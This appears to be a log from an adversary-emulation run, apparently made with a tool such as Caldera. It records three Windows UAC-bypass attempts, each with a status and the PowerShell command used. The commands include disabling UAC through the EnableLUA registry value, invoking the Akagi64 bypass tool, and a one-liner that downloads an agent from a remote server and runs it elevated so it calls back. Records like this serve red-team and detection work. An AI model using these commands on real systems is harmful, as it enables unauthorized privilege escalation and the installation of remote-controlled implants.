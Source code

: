 ###   Description: Set a registry key to allow UAC bypass


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Success

  PID: 6508

  Start: 2024-09-13T17:40:17Z

  Command: 
```powershell
New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force
```


###   Description: Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 5924

  Start: 2024-09-13T17:41:55Z

  Command: 
```powershell
.\Akagi64.exe 30 C:\Windows\System32\cmd.exe
```


###   Description: UIPI bypass with uiAccess application


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 6996

  Start: 2024-09-13T17:43:52Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"
```
